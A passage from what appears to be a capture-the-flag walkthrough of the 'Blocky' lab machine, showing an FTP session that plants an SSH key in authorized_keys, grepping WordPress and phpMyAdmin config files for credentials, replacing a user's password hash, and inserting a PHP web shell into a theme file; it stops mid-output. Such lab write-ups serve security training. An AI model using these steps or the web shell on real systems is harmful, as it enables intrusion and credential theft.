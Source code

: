 ### Method 2 - Wordpress Theme Exploitation and Password Seek in Configuration Files
Let's suppose now that, for some reason this credential does not work with the ssh service and we can somehow exploit the ftp service.  
Now we can try to login to ftp, create a .ssh/ directory and upload our public key into .ssh/authorized_keys and login using our certificate.   
In order to do this we can establish the followig ftp session:
```
[root@kali Blocky ]$ ftp $TARGET
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:root): notch                  
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa.pub
226 Transfer complete
563 bytes sent in 0.00 secs (11.9315 MB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```
now we can login into ssh.  
As a general rule, in penetration testing, code that connects to database contains connection parameter and in this parameter set we will most likely have credentials.  
so lets navigate to /var/www/html and grep for the keyword "pass"
```
/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
notch@Blocky:/var/www/html$ cat wp-config.php | grep DB_USER
define('DB_USER', 'wordpress');
```
As we can see we found the password for user wordpress.  
Let's dig deeper and see if we can get credentials for phpmyadmin.  
Finding credentials for mysql is quite important at this stage, because, if we do find credentials for root user, we can login to mysql cli and drop a shell as root using mysql as privilege escalation vector.  
Now let's navigate to ```/etc/phpmyadmin/```.  
We do not have permission for ```config-db.php``` file as it is owned by www-data. So, let's try to get a shell as user www-data.  
Now that we have user wordpress creds for the database, let's login to phpmyadmin using user wordpress and the disclosed password.  
Now we can navigate to wordpress database, find the ```wp_users``` table and create a new hash for user notch replacing the old one.  
Now we can login in wordpress using the user notch and the password used to generate the hash.  
Once we are logged in wordpress we can easilly obtain a shell by editing the theme files.  
If, for example, we go to Appearance > Editor > Theme Header, we can insert there a simple payload like : ```<?php system($_REQUEST['cmd']) ?>``` and obtain remote code execution and drop a shell as well.  
Once we are logged in as www-data we can read ```config-db.php```.  
As expected the file discloses credentials:
```
www-data@Blocky:/var/www/html$ cat /etc/phpmyadmin/config-db.php
<?php
##
```